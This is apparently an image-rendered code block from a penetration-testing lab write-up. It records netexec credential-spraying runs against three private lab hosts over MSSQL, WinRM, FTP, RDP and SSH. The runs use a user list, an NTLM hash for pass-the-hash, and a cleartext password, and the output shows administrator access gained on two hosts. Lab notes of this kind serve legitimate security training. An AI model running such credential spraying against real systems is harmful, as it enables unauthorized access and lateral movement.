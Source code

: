 ```bash

netexec mssql 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14 --local-auth
# Nope

netexec mssql 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!'
# Nope

netexec mssql 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!' --local-auth
# Nope

# =====================================================================
# winrm
netexec winrm 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14
# Nope

netexec winrm 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14 --local-auth
# WINRM       192.168.240.95  5985   SECURE           [+] SECURE\Administrator:a51493b0b06e5e35f855245e71af1d14 (Pwn3d!)

netexec winrm 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!'
# Nope

netexec winrm 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!' --local-auth
# WINRM       192.168.240.96  5985   ERA              [+] ERA\apache:New2Era4.! (Pwn3d!)

# =====================================================================
# ftp
netexec ftp 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!'
# Nope

# =====================================================================
# rdp
netexec rdp 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14
# Nope

netexec rdp 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -H a51493b0b06e5e35f855245e71af1d14 --local-auth
# RDP         192.168.240.95  3389   SECURE           [+] SECURE\Administrator:a51493b0b06e5e35f855245e71af1d14 (Pwn3d!)

netexec rdp 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!' --local-auth
# Nope

# =====================================================================
# ssh
netexec ssh 192.168.240.97 192.168.240.96 192.168.240.95 -u ad_users2.txt -p 'New2Era4.!'
# Nope
```
